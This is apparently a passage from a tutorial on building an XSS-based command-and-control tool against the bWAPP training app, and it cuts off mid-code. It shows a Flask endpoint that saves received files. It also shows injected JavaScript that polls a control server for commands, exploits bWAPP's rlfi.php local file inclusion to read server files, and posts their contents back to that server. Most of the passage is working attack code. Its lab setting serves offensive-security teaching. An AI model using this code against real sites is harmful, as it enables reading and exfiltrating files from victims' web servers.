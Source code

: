 ```
    fileContent = request.form["fileContent"]
    fileName = request.form["fileName"]
    fileName = fileName.replace("../","")
    
    if fileName.startswith("/"):
        separator = ""
    fullPathFileName = mainFolder + separator + fileName
    filePath = '/'.join(fileName.split('/')[0:-1])
    storageFolder = mainFolder + separator + filePath

    if not os.path.exists(storageFolder):
        os.makedirs(storageFolder)
    f = open(fullPathFileName, "a")
    f.write(fileContent)
    f.write("\n")
    f.close()
    return ""
```
<br>
To improve this further, we also need to update the saveFile endpoint and command. Most of the parts are the same, however we added a small line to remove all the "../" from the file path. This is so that the XSS can just send back the filename and we can save it to the right place. Our code looks like this now:
<br>
```
serverURL = "http://127.0.0.1:5000"
commandUrl = serverURL + "/getCommand"
var command = "" 
var lfiFile = ""

const COMMAND = "command"
const LFIFILE = "lfiFile"

async function getCommand() {
    let response = await fetch(commandUrl,{
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
    let text = await response.text()
    splittedBody = text.split("&");
    splittedBody.forEach(function(element){
        parseCommand(element)
    });
}

async function runLFI() {
    var urlOfThePage = window.location.protocol + "//" + window.location.host
    lfiTarget = urlOfThePage + "/bWAPP/rlfi.php?language="+lfiFile+"&action=go";
    dataSaveUrl = serverURL + "/saveFile"
    let response = await fetch(lfiTarget);
    let data = await response.text();
    var parser = new DOMParser();
    var htmlDoc = parser.parseFromString(data, 'text/html');
    
    var text = htmlDoc.getElementById("main").innerText;
    fileContent = text.substring(text.indexOf('Go') + 2);
    console.log(lfiFile)
    await fetch(dataSaveUrl,{
        body: "fileContent=" + encodeURIComponent(fileContent) + "&fileName=" + encodeURIComponent(lfiFile), 
```
